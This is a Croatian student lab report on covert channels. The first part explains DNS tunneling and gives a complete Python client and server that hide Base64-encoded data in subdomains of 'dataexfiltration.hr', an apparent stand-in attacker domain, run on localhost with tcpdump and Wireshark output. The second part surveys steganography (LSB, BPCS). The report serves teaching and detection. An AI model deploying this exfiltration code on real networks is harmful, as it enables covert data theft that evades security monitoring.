


# 1. Uvod


# 2. DNS Tunneling - Donat Ricov

Domain Name System protokol, poznat i kao DNS protokol, obuhvaća tehniku za prijenos podataka koji protokolu nisu izvorno namjenjeni. Iako je DNS koristan za prevođenje naziva domena u IP adrese te je kao takav osnovni protokol intereta, ovakva priroda samog protokola čine ga idealnim medijem za zaobilaženje standardnih sigurnosnih politika i stvaranje skirvenih komunikacijskih kanala. To znači da osim što DNS zbog svoje široke primjene može biti korišten u legitimate svrhe, također može biti zlouporabljen u kontekstu kibernetičkih napada kako bi se izvršila neželjena eksfiltracija podataka.

Tipičan primjer zlouporabe DNS protokola obuhvaća scenarij u kojem napadač enkapsulira podatke unutar DNS upita i njegovog odgovora. Ovi podaci mogu obihvaćati bezazlen internet promet i standardne komande, ali može se raditi o povjerljivim sigurnosim podacima. Budući da većina mreža dopušta DNS promet zbog njegove prethodno spomenute široke uporabe, potencijalna zlouporaba često može proći nefiltrirana u odnosu na druge vrste prometa. Potencijalno opasan mrežni promet tako često može zaobići vatrozide i probijati sigurnosne sustave u potpunosti neopaženo. Rezultat ovog je stvoren tunel između kompromitiranog sustava i udaljenog poslužitelja napadača.

Mehanizam rada DNS tunnelinga obično uključuje nekoliko komponenti:

1. Klijent na kompromitiranom uređaju - dio malicioznog softvera koji kodira podatke u oblik prikladan za DNS upite.

2. DNS poslužitelj kontroliran od napadača - konfiguriran za obradu neuobičajenih DNS upita i dekodiranje sadržaja unutar njih.

3. Tunneling protokol - definira način pretvaranja podataka u DNS pakete te njihovu rekonstrukciju na odredištu.

Ovakva struktura, zajedno sa standardizacijom samog DNS-a, su razlog njegove učinkovitosti. DNS nazivi domena imaju definiranu strukturu prema kojoj isti mogu sadržavati samo relativno duge nizove znakova. Ovakva struktura omogućava napadaču prenošenje osjetljivih kodiranih podataka. Ovako DNS upiti prolaze kroz nekoliko poslužitelja što otežava, ili čak onemogućuje, lociranje stvarnog izvora tunnelinga.


<p align="center"><em>Slika 1: Primjer DNS tunnelinga</em></p>

Iako je tehnika široko poznada u području mrežne i kibernetičke sigurnosti kao medij zlouporabe informacija, krađu podataka i održavanje zlonamjernih kanala, DNS tunneling ima raširene legitimne primjene. Pojedini administratori su korisnici ove tehnike jer im dopušta omogućavanje ograničenih mrežnih usluga u ograničenim ili čak zatvorenim okruženjima. Ipak, i u ovakvim okruženjima primjena ovakvog pristupa može sa sobom nositi legitiman rizik koji može komprimirati sigurnosne politike mreže.

Uzevši u obzir eklatantan porast uporabe DNS tunnelinga u malicioznim svrhama, moderni sigurnosni sustavi često provide napredne analize DNS prometa, dok mrežni administratori pomno prate potencijalne anomalije u strukturi samog prometa. 

# 2.1. Plan izrade praktičnog dijela

Praktični dio rada temelji se na izgradnji i simulaciji okruženja u kojem se demonstrira način funkcioniranja DNS tunnelinga. U ovoj fazi simulirano je generiranje, prijenos i presretanje samih podataka koji su skriveni unutar legitimnog DNS promjeta. Na ovaj je način demonstrirano kako se u praksi može izgraditi ovakav tunel kojim se prenose podaci putem standardnih DNS mehanizama. Također, evidentirano je kako ovakva vrsta prometa izgleda kada je promatrana kroz alate za analizu mreže. Ovakva vrsta pristupa pruža jasnu ilustraciju koncepta DNS tunnelinga kao i praktični prikaz realnog scenarija napada. Ovo je ključno za razumjevanje tehničke izvedbe napada i njegovog potencijalnog sigurnosnog značaja za sami sustav.

## 2.2. Metode i tehnike rada

Za postavljanje izoliranog okruženja simulacije korišten je Oracle VirtualBox. Odabrana je ova ruta jer on omogućuje stvaranje virtualnog stroja u kontroliranom i izoliranom okruženju. Ovo je od visoke važnosti budući da je tu simuliran sam napad. Također, na ovaj mi je način omogućeno simuliranje nekoliko uloga u napadu (klijent, napadač i sam DNS poslužitelj). 

Operacijski sustav koji je korišten je Ubuntu/Linux Mint 22. Ovaj OS je odabran zbog stabilnosti, jednostavnosti konfiguracije mrežnih servisa i dostupnosti potrebnih alata.

Za nadzor i analizu mrežnog prometa koriste se alati:

- Wireshark - za detaljnu grafičku analizu paketa, dekodiranje DNS upita i odgovora te praćenje anomalija u prometu.

- tcpdump - za tekstualno praćenje prometa u stvarnom vremenu, posebno korisno za verifikaciju da se tunelirani sadržaj doista pojavljuje unutar DNS paketa.

U eksperimentalnoj konfiguraciji lokalna fizička računala služe kao tunnel endpoint, odnosno krajnja točka napadačkog kanala. Uz to se simulira rad lokalnog DNS poslužitelja čija je adresa namjerno postavljena na 127.0.0.1, kako bi sav DNS promet bio preusmjeren na Python skriptu koja oponaša ponašanje DNS servera. Time se osigurava potpuno kontrolirano okruženje za testiranje bez rizika utjecaja na stvarnu mrežnu infrastrukturu.

Klijentski program i simulirani DNS poslužitelj implementirani su u programskom jeziku Python, što omogućuje potpunu fleksibilnost u manipuliranju DNS zaglavljima i generiranju vlastitih DNS paketa. Ovaj pristup omogućuje jasno prikazivanje osnovne ideje tuneliranja - enkapsuliranja proizvoljnih podataka u DNS upit i njihovo naknadno izvlačenje na strani poslužitelja.

Simulacija samog napada provedena je u idućim koracima:

1. Postavljanje lokalne domene

2. Simulacija DNS poslužitelja

3. Konfiguracija klijenta

4. Slanje tuneliranog prometa

5. Nadzor prometa alatima tcpdump i Wireshark

6. Obrada i rekonstrukcija podataka na strani poslužitelja

## 2.3. Praktični dio

U sklopu praktičnog dijela rada implementiran je jednostavan DNS poslužitelj u programskom jeziku Python koji služi za demonstraciju DNS tunnelinga. Poslužitelj obrađuje dolazne DNS zahtjeve, iz imena domene izdvaja skrivenu poruku kodiranu u Base64 formatu te je dekodira na strani napadača. Time se ilustrira kako je moguće prenijeti proizvoljne podatke unutar DNS prometa.

### 2.3.1. Poslužitelj - dns_server.py

Na početku skripte uvoze se potrebni moduli:
```
import socket
import base64
from dnslib import DNSRecord, DNSHeader, RR, QTYPE, A
```
Modul socket služi za rad s UDP socketima i primanje/slanje DNS paketa, base64 omogućuje dekodiranje poruka koje su skrivene u DNS upitima, dok se pomoću biblioteke dnslib pojednostavljuje parsiranje i generiranje DNS zapisa (upita i odgovora).
```
Funkcija extract_message_from_subdomain(subdomain) zadužena je za dekodiranje skrivene poruke:

def extract_message_from_subdomain(subdomain):
    try:
        return base64.urlsafe_b64decode(subdomain.encode()).decode()
    except Exception as error:
        return f"Error decoding message: {error}"
```
Pretpostavlja se da je tajna poruka kodirana u Base64 formatu i umetnuta u prvi dio domene (poddomenu). Funkcija prima taj niz znakova, pretvara ga u bajtove i potom pokušava dekodirati iz Base64 natrag u čitljiv tekst. U slučaju pogreške (npr. ako niz nije ispravno kodiran), vraća se poruka o grešci. Ovaj korak direktno predstavlja “vađenje” tuneliranih podataka iz DNS upita.

Ključna logika implementirana je u funkciji process_dns_query(query_data, client_ip):
```
def process_dns_query(query_data, client_ip):
    parsed_query = DNSRecord.parse(query_data)
    response_record = DNSRecord(
        DNSHeader(id=parsed_query.header.id, qr=1, aa=1, ra=1),
        q=parsed_query.q
    )
    requested_domain = str(parsed_query.q.qname)
    print(f"Received DNS request for: {requested_domain} from {client_ip}")
```
Primljeni DNS paket se parsira pomoću DNSRecord.parse, čime se dobiva struktura koja olakšava dohvaćanje traženog imena domene (qname). Na temelju dobivenog upita kreira se početni DNS odgovor (response_record), pri čemu se zadržava isti identifikator (id) kako bi klijent prepoznao odgovor kao pripadajući odgovarajućem upitu.

Sljedeći dio funkcije provjerava radi li se o domeni koja se koristi za tuneliranje:
```
    if "dataexfiltration.hr" in requested_domain:
        domain_parts = requested_domain.split('.')
        if len(domain_parts) > 2:
            secret_part = domain_parts[0]
            decoded_message = extract_message_from_subdomain(secret_part)
            print(f"Decoded secret: {decoded_message}")
        
        ip_address = "127.0.0.1"
        response_record.add_answer(RR(requested_domain, QTYPE.A, rdata=A(ip_address), ttl=300))
        print(f"Responding with IP: {ip_address}")
    else:
        print(f"Invalid domain query for: {requested_domain}")

    return response_record.pack()
```
Domena “dataexfiltration.hr“ predstavlja napadačevu domenu namijenjenu eksfiltraciji podataka. Ako se u zahtjevu nalazi ta domena, skripta razbija ime domene na dijelove pomoću točke (split('.')). U slučaju da postoji više od dva dijela (npr. tajnaPoruka.dataexfiltration.hr), pretpostavlja se da je prvi dio (secret_part) Base64-kodirana tajna poruka. Ta se poddomena potom prosljeđuje funkciji extract_message_from_subdomain, a dekodirana poruka ispisuje se u konzolu. Time napadačev poslužitelj “čita” tunelirane podatke skrivenе u DNS imenu.

Neovisno o sadržaju poruke, DNS poslužitelj vraća legitiman odgovor klijentu: dodaje A zapis koji traženu domenu mapira na IP adresu 127.0.0.1. Na taj način DNS odgovor izgleda uobičajeno, a tuneliranje ostaje skriveno unutar same strukture upita.

Ako zahtjev nije usmjeren na domenu dataexfiltration.hr, poslužitelj ga označava kao nevažeći za potrebe tuneliranja, ali ga i dalje može obraditi ili ignorirati, ovisno o daljnjoj implementaciji.

Funkcija run_dns_server implementira samu DNS uslugu koja neprekidno sluša na odabranom portu:
```
def run_dns_server(bind_address="0.0.0.0", bind_port=5354):
    print(f"DNS server is running on {bind_address}:{bind_port}")
    with socket.socket(socket.AF_INET, socket.SOCK_DGRAM) as server_socket:
        server_socket.bind((bind_address, bind_port))
        while True:
            try:
                query_data, client_address = server_socket.recvfrom(512)
                response_data = process_dns_query(query_data, client_address)
                server_socket.sendto(response_data, client_address)
            except Exception as e:
                print(f"Error during query processing: {e}")
```
Poslužitelj koristi UDP socket jer DNS standardno radi preko UDP-a. Socket se veže na zadanu IP adresu i port (u ovom slučaju 5354), zatim u beskonačnoj petlji (while True) prima DNS upite do veličine 512 bajtova (standardna veličina DNS paketa). Svaki primljeni upit prosljeđuje se funkciji process_dns_query, a dobiveni odgovor ponovno se šalje klijentu na istu adresu. Ugrađena je osnovna obrada grešaka kako bi se spriječio prestanak rada poslužitelja zbog iznimki.

Na kraju se skripta pokreće standardnim Python obrascem:
```
if __name__ == "__main__":
    try:
        run_dns_server()
    except KeyboardInterrupt:
        print("\nDNS server stopped.")
```
Ovo omogućuje da se DNS poslužitelj pokrene samo kada se skripta izvršava izravno, dok se logika može ponovno koristiti i kao modul u drugim programima.

## 2.3.2. Klijent - client.py

Klijentska skripta implementirana u Pythonu zadužena je za generiranje DNS upita koji sadrže skrivenu (tuneliranu) poruku te njihovo slanje prema simuliranom DNS poslužitelju. Skripta koristi biblioteku dnspython, koja omogućuje jednostavno kreiranje i slanje DNS upita, dok se za skrivanje podataka koristi Base64 kodiranje. Ovakav pristup vjerno simulira tipičnu tehniku eksfiltracije podataka putem DNS protokola.

Na početku skripte nalaze se uvozi potrebnih modula:
```
import dns.message
import dns.query
import base64
```
Modul dns.message omogućuje stvaranje DNS upita, dns.query upravlja slanjem upita putem UDP protokola, a base64 se koristi za kodiranje tajnih podataka u oblik pogodan za umetanje u ime domene.

Funkcija encode_data_in_subdomain(data, domain) pretvara proizvoljnu poruku u Base64 format i umetne je kao poddomenu ispred napadačeve domene:
```
def encode_data_in_subdomain(data, domain):
    encoded = base64.urlsafe_b64encode(data.encode()).decode()
    return f"{encoded}.{domain}"
```

Poruka (data) se pretvara u bajtove i kodira Base64 algoritmom. Dobiveni Base64 niz se spaja s domenom napadača, pri čemu se formira DNS ime oblika “kodiranaPoruka.dataexfiltration.hr”

Ovaj pristup omogućuje skrivanje tajnih podataka unutar DNS upita jer svaki segment domene smije sadržavati alfanumeričke znakove i određene simbole — što Base64 ispunjava.

Glavna funkcija transmit_dns_tunnel_message zadužena je za sastavljanje DNS upita, enkapsulaciju poruke te slanje upita prema ciljnom DNS poslužitelju:
```
def transmit_dns_tunnel_message(server, domain, message, port=53):
    query_domain = encode_data_in_subdomain(message, domain)
    query = dns.message.make_query(query_domain, dns.rdatatype.A)
    try:
        response = dns.query.udp(query, server, port=port)
        print(f"Message sent: '{message}' as '{query_domain}'")
        print(f"Response:\n{response}")
    except Exception as e:
        print(f"Transmission failed: {e}")
```
Ova funkcija radi nekoliko ključnih koraka:

Skrivanje poruke

Stvaranje DNS upita - pomoću dns.message.make_query kreira se standardni DNS A upit za domenu koja u sebi nosi skrivenu poruku.

Slanje upita UDP-om - dns.query.udp šalje DNS upit na adresu simuliranog poslužitelja.

Ispis rezultata - skripta prikazuje izvorni tekst poruke, njezinu kodiranu verziju te DNS odgovor primljen sa servera.

U slučaju problema (npr. nedostupan server), funkcija hvata iznimku i ispisuje poruku o grešci.

Ovaj mehanizam vjerno predstavlja klijentsku stranu DNS tunnelinga — napadač šalje kriptirane podatke unutar DNS upita, a poslužitelj ih dekodira.

U glavnom dijelu definiraju se parametri tuneliranja i pokreće se funkcija za slanje poruke:
```
if __name__ == "__main__":
    domain = "dataexfiltration.hr"
    server_ip = "127.0.0.1"
    server_port = 5354

    msg = "Ova poruka je tajna."

    transmit_dns_tunnel_message(server_ip, domain, msg, port=server_port)
```
domain predstavlja kontroliranu domenu napadača.

server_ip i server_port upućuju na lokalni simulirani DNS poslužitelj implementiran ranije.

msg sadrži podatke koje napadač želi eksfiltrirati.

Poziv transmit_dns_tunnel_message inicira stvarni DNS tunneling.

Ovaj dio skripte služi kao demonstracija kako se jednostavan tekst može “zapakirati“ u DNS upit i poslati, što u praksi predstavlja osnovni mehanizam DNS eksfiltracije podataka.

## 2.4. Slanje poruke i snimanje prometa

U ovom dijelu praktičnog rada provedeno je testiranje implementiranog DNS tunneling sustava. Cilj je bio poslati skrivenu poruku klijentskom skriptom, omogućiti DNS poslužitelju da ju dekodira te usporedno snimiti cjelokupni mrežni promet kako bi se analizirali korišteni DNS paketi. Proces se sastoji od nekoliko koraka: pokretanja alata za snimanje prometa, aktiviranja DNS poslužitelja, slanja tunelirane poruke i konačnog pregleda dobivenih rezultata.

### 2.4.1. Snimanje prometa korištenjem tcpdump alata
Za praćenje mrežnog prometa odlučio sam koristiti alat tcpdump, budući da omogućuje precizno filtriranje paketa i spremanje snimljenog prometa u .pcap format pogodan za naknadnu analizu u Wiresharku. Budući da se DNS poslužitelj izvršava lokalno i sluša na portu 5354, konfigurirano je snimanje tog prometa. Snimanje prometa pokrenuo sam naredbom:
```
sudo tcpdump -i lo udp port 5354 -w dns_tunnel.pcap
```
Na ovaj je način pokrenuto snimanje svih UDP paketa koji prolaze kroz loopback (lo) sučelje i ciljaju port 5354. Snimanje je uspješno započelo i tcpdump je počeo zapisivati pakete u datoteku dns_tunnel.pcap.

Ovaj korak bio je važan kako bi se kasnije moglo dokazati da se poruka doista prenosi unutar DNS upit


<p align="center"><em>Slika 2: Pokretanje snimanja mrežnog prometa</em></p>

### 2.4.2. Pokretanje DNS servera

U drugom terminalu pokrenuo sam DNS poslužitelj implementiran u skripti dns_server.py. Prvo sam se navigirao u odgovarajući direktorij:
```
cd dns_tunnel
python3 dns_server.py
```
Nakok pokretanja, ispisala mi se pripadajuća poruka:
```
Starting DNS server on 0.0.0.0:5354
```
Ova poruka potvrđuje da se poslužitelj uspješno pokrenuo, da sluša na svim mrežnim sučeljima te da je spreman primati DNS upite. Poslužitelj se izvršava u kontinuiranoj petlji i obrađuje svaki pristigli DNS paket, uključujući i one koji nose kodirane podatke.


<p align="center"><em>Slika 3: Pokretanje DNS poslužitelja</em></p>

### 2.4.3. Pokretanje klijenta i slanje poruke

U trećem terminalu pokrenuta je klijentska skripta zadužena za slanje poruke tunelirane unutar DNS upita. Skripta client.py smještena je u istom direktoriju:
```
cd dns_tunnel
python3 client.py
```
Nakon izvršavanja, ispisana je sljedeća poruka:
```
Message sent: 'Ova poruka je tajna.' as
'T3ZhIHBvcnVrYSBqZSB0YWpuYS4=.dataexfiltration.hr'
```
Ovaj ispis potvrđuje da je izvorni tekst “Ova poruka je tajna.“ uspješno kodiran u Base64 format i umetnut kao poddomena domene dataexfiltration.hr. Klijent je zatim generirao DNS A-upit prema lokalnom serveru.

Dodatno, prikazan je sadržaj DNS odgovora:
```
;QUESTION
T3ZhIHBvcnVrYSBqZSB0YWpuYS4=.dataexfiltration.hr. IN A
;ANSWER
T3ZhIHBvcnVrYSBqZSB0YWpuYS4=.dataexfiltration.hr. 300 IN A 127.0.0.1
```
Ovo pokazuje da je server obradio zahtjev te vratio očekivani odgovor s IP adresom 127.0.0.1, što znači da je čitav tunelirani komunikacijski ciklus uspješno realiziran.


<p align="center"><em>Slika 4: Uspiješno slanje i odgovor DNS upita</em></p>

### 2.4.4. Čitanje tajne poruke

Na strani poslužitelja vidljivo je kako je server primio zahtjev, prepoznao domenu i dekodirao skrivenu poruku. U terminalu se prikazalo:
```
Received DNS request for: T3ZhIHBvcnVrYSBqZSB0YWpuYS4=.dataexfiltration.hr. from ('127.0.0.1', 41631)
Decoded secret: Ova poruka je tajna.
Responding with IP: 127.0.0.1
```
Ovaj ispis predstavlja dokaz da je tuneliranje uspješno izvedeno.
DNS poslužitelj izdvojio je Base64 kodirani segment iz imena domene, dekodirao ga i rekonstruirao originalnu tekstualnu poruku.


<p align="center"><em>Slika 5: Prikaz dekodirane poruke na serveru</em></p>

### 2.4.5. Zaustavljanje tcpdump-a

Nakon završetka komunikacije, tcpdump proces je zaustavljen pritiskom tipki Ctrl + C. Alat je prikazao statistiku:
```
^C2 packets captured
4 packets received by filter
0 packets dropped by kernel
```
Zabilježena su ukupno dva paketa koji odgovaraju poslanom DNS upitu i dobivenom odgovoru.
Snimljeni promet spremljen je u datoteku dns_tunnel.pcap, koja se može dodatno analizirati u alatu poput Wiresharka za detaljan pregled zaglavlja i sadržaja DNS paketa.


<p align="center"><em>Slika 6: Statistika snimanja</em></p>

### 2.5. Analiza prometa u Wiresharku

Nakon što je mrežni promet snimljen pomoću alata tcpdump, sljedeći je korak bio detaljno analizirati sadržaj paketa korištenjem Wiresharka. Ova analiza omogućuje potvrdu da se tajna poruka doista prenosila unutar DNS upita, kao i uvid u način na koji izgleda tunelirani DNS promet na paketnoj razini.

### 2.5.1. Otvaranje snimljenog prometa u Wiresharku

Prvo sam pokrenuo aplikaciju Wireshark te sam nakon pokretanja otvorio snimljenu datoteku dns_tunnel.pcap. Ovime je učitan sav promet snimljen tijekom slanja tunelirane DNS poruke.

### 2.5.2. Filtriranje DNS paketa

Kako bi se prikazali samo paketi vezani uz DNS komunikaciju, u polje za filtriranje upisao sam dns.

Nakon primjene filtera, u glavnom prozoru prikazani su isključivo DNS paketi, što omogućuje fokusiranu analizu bez šuma iz drugih protokola.

Wireshark je odmah prikazao očekivani DNS upit koji sadrži vrlo dugu poddomenu. Upravo taj produljeni tekst predstavlja Base64 kodiranu poruku umetnutu u DNS QNAME polje.

### 2.5.3. Uvid u sadržaj DNS paketa

Nakon što sam kliknuo na odgovarajući DNS paket, u srednjem panelu Wiresharka otvorila se njegova struktura. Unutar sekcije Domain Name System nalazila se stavka Name, koja je prikazala punu domenu koja je bila predmet DNS upita:
```
T3ZhIHBvcnVrYSBqZSB0YWpuYS4=.dataexfiltration.hr
```
Ovdje se jasno vidi da je prva komponenta domene dugačak Base64 niz, koji predstavlja kodiranu verziju poruke:

"Ova poruka je tajna."

Ovaj korak potvrđuje da se tuneliranje odvija kroz polje QNAME, koje DNS poslužitelji normalno obrađuju, a sigurnosni sustavi često zanemaruju.


<p align="center"><em>Slika 7: Sadržaj DNS paketa</em></p>

### 2.5.4. Verifikacija kodiranog sadržaja
Iako server u ovom projektu automatski dekodira Base64 niz, u Wireshark analizi moguće je dodatno provjeriti da se u paketu uistinu nalazi poruka koju sam poslao.

Kodirani dio:
```
T3ZhIHBvcnVrYSBqZSB0YWpuYS4=
```
može se po želji ručno dekodirati pomoću online alata ili naredbe:
```bash
echo 'T3ZhIHBvcnVrYSBqZSB0YWpuYS4=' | base64 -d
```
Rezultat je:
```
Ova poruka je tajna.
```
Time je potvrđeno da se cijeli sadržaj poruke nalazi u DNS paketu i da je uspješno prenesen sustavom DNS tunnelinga.

Iako ručna dekodacija nije nužna u okviru ovog praktičnog rada, ona dodatno demonstrira način na koji se eksfiltrirani podaci mogu rekonstruirati iz samog prometa bez pomoći servera.

### 2.5.5. Potvrda ispravnosti implementacije

Analiza u Wiresharku potvrdila je sve ključne korake implementacije. Tajna poruka uspješno je kodirana u Base64 format te je kodirana poruka umetnuta je u DNS QNAME polje. Ovime je evidentno da je DNS klijent poslao je tunelirani upit, a DNS poslužitelj primio je upit i dekodirao poruku. Uz to, mrežni promet sadrži sve elemente potrebne za rekonstrukciju poruke

Ovaj dio analize pokazuje da je implementirana metoda DNS tunnelinga funkcionalna i da se eksfiltracija podataka može izvesti koristeći standardni DNS protokol bez potrebe za dodatnim kanalima komunikacije.


# 3. Steganografija - Lana Maček
Steganografija je vrsta prikrivene komunikacije usko povezana s kriptografijom. Kriptografija predstavlja znanstvenu disciplinu koja se bavi zapisivanjem informacija u tajnom kodu ili šiframa. Podaci koji se šalju od pošiljatelja prema primatelju šifriraju se tako da ih može dešifrirati jedino ovlašteni primatelj koji posjeduje odgovarajući ključ za pretvaranje šifriranog sadržaja u razumljive podatke. Glavni nedostatak kriptografije jest to što je šifrirani sadržaj lako prepoznatljiv, čime se potencijalnom napadaču signalizira postojanje osjetljivih informacija koje bi mogao pokušati dešifrirati.

Za razliku od kriptografije, steganografija nudi prednost time što skriva samo postojanje poruke. Steganografskim metodama informacije se ugrađuju u neki nositelj podataka na način koji ne otkriva da komunikacija uopće postoji, što znatno otežava njihovo otkrivanje, zlouporabu ili presretanje.

#### Povijest steganografije
Steganografija započinje davno prije postojanja računala i digitalnih tehnologija. Od svojih najranijih oblika služila je kao sredstvo tajne komunikacije između dviju strana, pri čemu treća osoba ne bi bila ni svjesna da razmjena informacija postoji.

440-ih godina prije krista u Grčkoj pojavljuje se jedan od prvih načina steganografije. Grčki vođa Histijej (eng. *Histiaeus*) obrijao je glavu osobe te na nju ispisao poruku. Kada je kosa osobe narasla poruka je bila potpuno sakrivena. Sluga je tada mogao prenjeti tajnu poruku drugoj strani bez da ona bude otkrivena od strane neprijatelja. 

1499.godine Johannes Trithemius napisao je knjigu Steganographia koja je naizgled govorila o magiji. Pri dešifriranju otkriveno je da je knjiga zapravo govorila o kripto i steganografiji. 

1941.godine Alexis Casdagli bio je zarobljen u Drugom Svijetskom ratu od strane Njemačke. U zarobljeništvu je počeo izrađivati uvez (*Casdaglijev vez*). Uz rub samog platna na kojem su se nalazili simboli nacizma, američki orlovi, britanski lavovi i sovjetski srp i čekić, uvezao je niz linija i točaka koje su ispisivale poruku u Morsevom kodu. 

Ovo su samo neki od mnogih primjera steganografije prije digitalnog razvojay. 1993. godine zabilježen je jedan od prvih primjera digitalne steganografije. U kriminalističkoj istrazi je na računalu Ramzija Youseffa pronađena kolekcija enkriptiranih datoteka za koje je bilo potrbno više od godinu dana da bude dešifriran barem dio informacija. Unutar datoteka nalazili su se planovi za napade, kemijske formule i drudge inkriminirajuće informacije. 

#### Digitalna steganografija

Iako je steganografija korištena od strane kriminalaca i terorista ona, poput svake druge vrste kriptografije, služi širokom spektru korisnika. Upotrebljavaju je obavještajne službe, umjetnici, aktivisti, hakeri, programeri, tvorci zagonetki i mnogi drugi. Kako su se steganografske tehnike razvijale, istodobno su se razvijale i metode za procjenu njihove otpornosti. Za potrebe analize, steganografska zajednica razvila je svojevrsnu matricu rizika poznatu kao tetraedar kompromisa.

Četiri vrha tetraedra predstavljaju ključne zahtjeve za prikrivenu transmisiju podataka. Kompromis (eng. *trade-off*) označuje da naglašavanje jednog od tih zahtjeva uvijek na neki način narušava preostala tri.
1. Robusnost: Svojstva skrivene poruke koja osiguravaju da ona preživi sve nenamjerne obrade podataka tijekom prijenosa od pošiljatelja do primatelja.
2. Sigurnost: Ugrađena zaštita od pokušaja neprijateljske strane da ukloni ili onesposobi skrivenu poruku.
3. Neprimjetljivost: Sposobnost skrivene poruke da postoji bez narušavanja perceptivnog sadržaja izvorne slike.
4. Kapacitet: Količina informacija koje se mogu sakriti unutar nositeljske slike.
   
U nekim izvorima on je naveden i kao Trokut kompromisa. U tom slučaju nije uključena sigurnost kao *trade-off* faktor.


#### Metode i tehnike steganografije

Jedna od prvih vrsta digitalne steganografije bila je tehnika najmanje značajnog bita ili LSB (*eng. Least Significant Bit*). Tehnika je bila razvijena u 80-im godinama prošlog stoljeća.  U ovoj tehnici podaci su sakriveni unutar informacija najmanje važnih za kvalitetu slike. Na taj način minimizira se narušavanje izgleda slike. Područje slike s viškom informacija čine najmanje značajni bitovi svakog piksela. Kako bi proveli LBS tehniku moramo pratiti pet koraka:
1. Odabrati sliku na kojoj će biti sakrivena informacija. Idealna je originalna slika jer se u promjeni javno dostupne fotografije može izmijenjeni primjerak lako usporediti sa originalnom slikom te time kompromitirati sigurnost sakrivenih podataka.
2. Sliku je potrebno pretvoriti u niz bitova (koji određuju boju piksela koji čine digitalnu sliku)
3. Pronađi najmanje značajan bit svakog binarnog niza. Taj bit je krajnji desni bit u nizu. Ako se taj bit pretvori u 0 boja će i dalje biti skoro identična originalnoj.
4. Napravi izmjene najmanje značajnih bitovatako da se pri njihovoj izolaciji i ponovnom sastavljanu ispiše neka poruka. U slici prikazanoj ispod promjenjeni su bitovi kako bi ispisali slovo e.Slovo, tj. Poruka je skrivena u takozvanoj stego slici
   


5. Pošalji stego sliku primatelju. Primatelj može primjeniti algoritam za otkrivanje promjena u vrijednostima piksela i izdvojiti iz slike skrivenu poruku.

Unatoč jednostavnosti, LSB metoda ima ozbiljna ograničenja. LSB steganografija skoro nikad ne radi pouzdano na .jpg formatu slike, ali radi na .png formatu, koji je format bez gubitaka. No ključno je to što postoji granica koliko se najmanje značajnih bitova u pikselima može izmijeniti, a da slika ne izgubi kvalitetu. Ako se pokuša sakriti previše podataka, slika se vidljivo degradira što može otkriti čovjek ili specijalizirani forenzički softver. Kako bipromjena bila neprimjetna, steganografi koji koriste LSB metodu mogu manipulirati najviše 15% sadržaja slike.

Richard Eason i Eiji Kawaguchi su u radu Principles and Applications of BPCS-Steganography prikazali na koji način se kapacitet skrivanja podataka može povećati čak na 60%. Kako bi unaprijedili tehniku najmanje značajnog bita (LSB), Eason i Kawaguchi iskoristili su ograničenja ljudskog vida. Radi postizanja maksimalne perceptivne neprimjetnosti osmislili su metodu dijeljenja slike na dva različita područja, informativno područje i područje šuma. Informativno područje čini jednostavan uzorak koji oko može trenutačno prepoznati, a područje šuma čini toliko složen uzorak da ga mozak zapravo ne registrira u potpunosti. Dobar primjer područja šuma bio bi pijesak. Sitna zrna u ogromnim količinama su prvelika količina skoro jednakih objekata da bi ih ljudski mozak mogao razlikovati. Informativno područje bila bi ljubičasta lopta na pjesku koja se jasno istiće u okolini. Na mikroskopskoj razini područja informacija i šuma mogu se matematički mapirati.


Steganografi dijele sliku na 8 razina kako bi mapirali ove regije. 


Kada se slika rastavi na bitove postaje jednostavnije razlikovati informativna područja i područja šuma. Za jasnije granice preko slike se postavlja mreža, a svakoj ćeliji se dodjeljuje vrijednost šuma. To se postiže mjerenjem kontrasta piksela unutar svakog segmenta (eng. *Border value*).

Eason i Kawaguchi predložili su umetanje tajnih podataka u dijelove slike s područjima šuma, koja često čine oko 45% slike. Kako bi se informativno područje tajne slike prikrilo u području šuma nositeljske slike, ono se mora pretvoriti u šum.


U gornjem primjeru slika 1 je isječak početne slike koji se jasno ističe. Usklađivanjem s prednjim uzorkom nositeljske slike prikazanim na slici 4 i stražnjim uzorkom, prikazanim na slici 5, taj se isječak može neprimjetno uklopiti. Ovo je zahtjevan proces za koji je potreban softverski paket poput Matlaba.

#### Budućnost steganografije

